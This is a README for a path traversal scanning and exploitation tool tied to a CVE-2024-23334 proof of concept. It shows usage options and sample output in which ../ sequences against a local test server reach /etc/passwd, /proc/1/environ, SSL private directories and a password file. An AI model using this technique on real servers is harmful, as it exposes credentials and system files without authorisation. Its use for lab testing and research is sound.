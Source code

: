 # Path Traversal Directory Tree
## What is this?
This is a small application that searches and exploit a path traversal vulnerability in a web server using curl.

## Why is this?
If you don't know what you're looking for, path traversal investigation can be a lot of guessing and trying out stuff until something sticks.

I found [this project](https://github.com/z3rObyte/CVE-2024-23334-PoC/tree/main) made by [@z3rObyte](https://github.com/z3rObyte) that can find out the root level of the host machine. At the time, 

## How to use this?
```
> ./path-traversal-directory-tree.exe -h
Usage: path-traversal-directory-tree.exe [OPTIONS] --url <URL> --extensions <EXTENSIONS> --wordlist <WORDLIST>

Options:
  -u, --url <URL>
          Target host URL
  -l, --level <MAX_TRAVERSAL_LEVEL>
          Number of level to attempt path traversal [default: 8]
  -d, --vulnerable-directory <VULNERABLE_DIRECTORY>
          Name of the vulnerable directory (if known)
  -e, --extensions <EXTENSIONS>
          File extension to lookup
  -w, --wordlist <WORDLIST>
          Wordlist for path and file name lookup
  -v, --verbose
          Outputs directory attempts
  -h, --help
          Print help
  -V, --version
          Print version
```

### Sample result

```
> ./path-traversal-directory-tree.exe -u "http://localhost:8080" -e txt -w .\poc\wordlist\common.txt -l 10 -d static
== Starting Search for Root path ==
Target host: http://localhost:8080
Target file: /etc/passwd
Vulnerable Directory: /static
Max search levels: 10
Wordlist: .\poc\wordlist\common.txt
===
== Root path found ==
Vulnerable directory: /static
Level: 8
Sample path: http://localhost:8080/static/../../../../../../../../
== Running directory mapping ==
Directory: http://localhost:8080/static/../../../../../../../../bin/
File: http://localhost:8080/static/../../../../../../../../bin/ar/
File: http://localhost:8080/static/../../../../../../../../bin/arch/
File: http://localhost:8080/static/../../../../../../../../bin/as/
File: http://localhost:8080/static/../../../../../../../../bin/bash/
...
Directory: http://localhost:8080/static/../../../../../../../../lib/ssl/
Directory: http://localhost:8080/static/../../../../../../../../lib/ssl/certs/
Directory: http://localhost:8080/static/../../../../../../../../lib/ssl/misc/
Directory: http://localhost:8080/static/../../../../../../../../lib/ssl/private/
Directory: http://localhost:8080/static/../../../../../../../../lost%2Bfound/
Directory: http://localhost:8080/static/../../../../../../../../media/
File: http://localhost:8080/static/../../../../../../../../media/password.txt      <-- Interesting file
Directory: http://localhost:8080/static/../../../../../../../../opt/
Directory: http://localhost:8080/static/../../../../../../../../proc/
Directory: http://localhost:8080/static/../../../../../../../../proc/1/
File: http://localhost:8080/static/../../../../../../../../proc/1/comm/
File: http://localhost:8080/static/../../../../../../../../proc/1/environ/
...
```

## Running the PoC
This is the same server code created by [@z3rObyte](https://github.com/z3rObyte).

```
> sudo pip install -r ./poc/requirements.txt
> sudo python3 ./poc/server.py 
```